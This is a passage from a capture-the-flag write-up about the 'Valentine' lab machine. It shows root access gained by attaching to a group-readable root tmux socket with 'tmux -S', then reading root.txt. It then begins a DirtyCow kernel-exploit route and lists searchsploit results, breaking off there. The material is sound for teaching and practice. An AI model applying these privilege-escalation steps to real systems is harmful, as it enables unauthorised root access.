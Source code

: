 That is to say, in line 5-7 of the history, the user goes into the `/.devs` directory. In line 9 we see him start tmux session with the socket `dev_sess`. He tried to attach to that session with `-a t dev_sess` (line 10), but that’s not the correct way to do it. Then he runs the help command (line 11), and gets the correct way to connect, using `-S` (line 12).

If we look at the permissions for the socket, it’s owned by room, but its group is hype, and the file is readable by group:

```

hype@Valentine:~$ ls -l /.devs
total 0
srw-rw---- 1 root hype 0 Jul 25 15:07 dev_sess

```

We can connect to the session the same way hype did, with `-S`:
![1532741669699](https://0xdfimages.gitlab.io/img/1532741669699.png)

In the picture, you’ll see the tmux session I was running on my kali, and inside that the tmux session on Valentine.

Grab root.txt:

```

root@Valentine:/home/hype# id
uid=0(root) gid=0(root) groups=0(root)
root@Valentine:/home/hype# cat /root/root.txt
f1bb6d75...

```

### Privesc 2: DirtyCow

We already suspect that this is an old kernel. `uname -a` confirms it:

```

hype@Valentine:~$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux

```

[Wikipedia](https://en.wikipedia.org/wiki/Dirty_COW) confirms this version is vulnerable to DirtyCow. There’s a few options in searchsploit:

```

root@kali:/opt/linux_privesc# searchsploit dirty
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
 Exploit Title                                                                                                                                                                      |  Path
                                                                                                                                                                                    | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page                                                                                                                  | exploits/linux/dos/43199.c
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)                                                                  | exploits/linux/local/40616.c
```
